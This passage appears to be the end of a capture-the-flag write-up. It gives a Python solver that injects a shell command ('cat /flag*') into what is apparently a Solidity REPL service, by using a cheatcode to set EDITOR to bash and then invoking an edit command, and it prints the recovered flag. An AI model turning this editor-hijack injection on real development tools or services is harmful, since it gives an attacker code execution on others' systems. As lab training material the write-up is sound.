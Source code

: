 By using this approach, you can successfully retrieve the flag.
Here is the final solver:

```python
import os
import httpx
from urllib.parse import quote

HOST = os.getenv("HOST", "localhost")
PORT = os.getenv("PORT", "3000")

client = httpx.Client(base_url=f"http://{HOST}:{PORT}")

code = "\n".join(
    [
        "//; cat /flag*",
        "interface Vm { function setEnv(string calldata name, string calldata value) external; }",
        "Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);",
        'vm.setEnv("EDITOR", "bash");',
        "!edit",
    ]
)
uuid = client.get(f"/run?code={quote(code)}").json()["uuid"]
out = client.get(f"/out/{uuid}").text
print(out)

```

Flag: `blaz{th4nk_y0u_f0r_d3v3l0p1ng_ch153l_cadd9591}`

